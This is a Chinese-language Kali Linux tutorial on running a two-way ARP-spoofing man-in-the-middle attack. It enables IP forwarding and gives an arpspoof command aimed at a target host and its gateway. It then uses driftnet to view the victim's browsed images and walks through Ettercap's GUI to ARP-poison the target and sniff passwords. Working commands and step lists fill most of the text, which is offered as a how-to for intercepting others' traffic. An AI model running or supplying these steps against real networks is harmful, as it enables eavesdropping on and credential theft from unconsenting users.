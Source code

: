 在前面Arp成功进行攻击后，我们开始作为中间人进行欺骗，需要设置ip转发，获取目标主机B的流量，其后配合其它工具(drifnet)等进行进一步嗅探。

值得一提的是，我们的Arp攻击也是欺骗，但它是单向欺骗，冒充网关主机来欺骗目标主机。实际中，中间人攻击一般是双向欺骗。即作为中间人，主机A双向欺骗主机B与C获得通信内容，但是不破坏通信数据的传输。为了不影响B与C传输的数据丢失，主机A开启ip转发，开启后来自B主机的数据包经过A主机的Kali后转发给主机C。欺骗两个主机B和C后，我们就能嗅探到双向数据包。

如果你的kali在虚拟机，那么以下步骤均需要一个外置的usb无线网卡。在虚拟机中，网络的连接比较复杂，而Ip转发很大程度上取决于网卡性能。如果你是在虚拟机中Kali进行转发，基本都会失败，因为笔记本的内置无限网卡满足不了需求。由于放假在家我的usb无线网卡落在了寝室..下面仅以文字给大家介绍攻击的思路和流程，还请见谅…….

### linux的ip转发

linux因为系统安全，是不支持IP转发的，其配置文件写在/proc/sys/net/ipv4的ip_forward中。默认为0，需要修改为1。

开启方法大致有两种：

1. 只接进入文件修改

   ```
   cd /proc/sys/net/ipv4
   ls
   cat ip_forward
   #显示结果为0
   echo 1 > ip_forward
   cat ip_forward
   #显示结果为1，修改成功
   ```

2. 使用echo

   ```
   # echo  "1"> /proc/sys/net/ipv4/ip_forward
   ```

### 对网关和目标主机B的双向欺骗

这里进行一步执行，选用第二种Ip转发手段
命令如下：

```
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward && arpspoof -i eth0 -t 192.168.11.105 -r 192.168.11.1
```

### 利用driftnet进程监控

持续保持欺骗，再重新打开一个命令终端。
输入命令：

```
root@kali:~# driftnet -i eth0
```

跳出来的drift窗口即会显示本机正在浏览的图片

### 使用ettercap工具获取密码

1. 打开新的终端，输入 attercap -G 启动工具
2. 点击Sniff -> unified sniffing，选择要抓包的网卡，默认是自己的网卡eth0，点确定
3. 然后单击Hosts -> Scan for host，待扫描完成后再次Scan for host，此时可以看到ettercap-NG已经扫描的主机列表
4. 选择攻击目标，点击192.168.11.105的ip地址，点击Add to Target 1 ，然后选择网关的ip地址192.168.11.1，点击Add to Target 2
5. 明确目标攻击方式：点击Mitm -> arp poisoning -> Sniff remote connections -> 确定
6. 开始监听：start -> Start sniffing
